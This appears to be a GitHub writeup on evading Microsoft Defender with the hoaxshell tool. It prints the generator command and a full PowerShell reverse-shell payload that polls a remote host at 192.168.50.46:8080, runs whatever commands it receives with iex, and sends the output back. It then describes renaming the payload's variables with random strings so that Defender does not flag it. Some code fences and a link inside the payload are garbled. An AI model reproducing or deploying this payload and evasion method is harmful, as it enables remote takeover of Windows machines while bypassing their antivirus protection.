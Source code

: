 # hoaxshell

Feb 23,

So I just want to share my writeup because I've been trying to bypass
defender for sometime now and this is the first time I Officially bypassed
Defender , I've spent countless hours obfuscating my powershell
command using unicorn, invoke-obfuscation and chimera , I would highly
suggest to watch t3l3machus it definitely helped me to bypass
defender, thank you brother

![2-1](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/2b438ba0-2e94-4c58-9e86-4a95ab128d5f)

# 1. Create a shell using Hoaxshell

I used this command,
```
./hoaxshell.py -s 192.168.50.46 -r -H 'Authorization'
```
`
-r = raw payload
-H = additional hoaxshell tag to bypass defender
`

# 2. and then it will spit out this shell here

```
$s='192.168.50.46:8080';$i='db6a3b05-dc656d46-1fb446ac';$p='
[http://';$v=Invoke-WebRequest](http://';$v=Invoke-WebRequest) -UseBasicParsing -Uri $p$s/db6a3b05 -
Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -
UseBasicParsing -Uri $p$s/dc656d46 -Headers
@{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=iex $c -
ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;
$t=Invoke-WebRequest -Uri $p$s/1fb446ac -Method POST -Headers
@{"Authorization"=$i} -Body
([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

![2-2](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/3bde52e7-7870-4b65-9a04-b0f687e34683)


this raw payload would be flagged down by microsoft so I used variable
substitution I learned from t3l3machu

# 3.Using python I used uuid module as well to create random strings

python commands I used to spit out 10 random strings

import uuid
uuid.uuid4().hex
for i in range(10):
uuid.uuid4().hex

## ```
![2-3](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/0552328b-5e21-4b7b-b59f-d6d3b180066f)


## ```

# 4. and then I opened sublime text to edit some variables ,
I changed 7 variables from the raw payload before, to look like this,


![2-4](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/9789c167-9a55-4b5e-af13-92dc7a6dfd8b)


# 5. and then I tested it in my victim machine with Microsoft Defender
active , and it WORKS!!!

```
![2-5](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/4b857298-8967-4d0d-be16-d95955772431)


## ```

I waited for 15mins to check if I would be disconnected.... I noticed that I
am not getting disconnected even when I am executing commands like
ipconfig,sysinfo,whoami etc... , The only time I got disconnected was
when I created a file in the desktop folder
```
![2-6](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/21268880-ba81-46e8-89ef-155e251011be)

## ```



